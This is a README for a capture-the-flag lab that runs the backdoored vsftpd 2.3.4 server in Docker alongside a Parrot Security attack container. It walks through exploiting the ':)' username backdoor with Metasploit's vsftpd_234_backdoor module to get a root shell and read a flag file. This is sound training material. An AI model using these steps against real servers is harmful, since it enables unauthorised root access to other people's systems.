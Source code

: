 # WCCI CTF Exercise 1

Ubuntu container with a vulnerable version of [vsftpd-2.3.4](https://github.com/nikdubois/vsftpd-2.3.4-infected/tree/vsftpd_original) installed. 
This version of vsftpd-2.3.4 contains a malicious backdoor, which could be triggered when a username contained a ":)". Upon execution, a bind shell on port 6200 was opened, giving remote root access to anyone connecting to that port.

The container also contains the latest version of Parrot Security, which can be used to exploit this vulnerability. 

## Requirements
- Docker
- Docker Compose

## Instructions
1. Clone this Repo: `git clone https://github.com/johnathan-wcci/VSFTPD-2.3.4-Exercise-1.git`
2. Navigate into this folder: `cd VSFTPD-2.3.4-Exercise-1`
3. Start the Docker Container: `docker compose -f .\docker-compose.yml up'
4. Open Another Terminal.
5. Bash into the Parrot Security Container. This is your attack machine: `docker exec -it test-ctf-Parrot-1 bash`
6. Find Target Machine: ``
7. Open the Metasploit Console: `msfconsole`
8. Select the vsftpd-2.3.4 exploit: `use unix/ftp/vsftpd_234_backdoor`
9. View configurable options: `show options`
10. Set the Target machine: `set RHOST <taget-machine-ip>`
11. Run the exploit: `exploit`
12. Wait for Reverse Shell to start
13. Run a test command to see if shell session is established: `ls -l`
14. Find the flag: `cat ~/Documents/Important\ Keys/keys.txt`
15. Use your favorite Base64 Decoder to decode the flag.
16. DO NOT LEAVE THESE CONTAINERS RUNNING! Stop the docker containers by running: `docker compose -f .\docker-compose.yml down`

## Extra Credit:
1. Try manually exploiting this backdoor.
2. Try writing a Python script to exploit this backdoor.

## Resources:
[Rapid7 MSFConsole Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
[Rapid7 VSFTPD-2.3.4 Exploit Module Source Code](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/ftp/vsftpd_234_backdoor.rb)
[University of Hawaii Writeup](https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/)
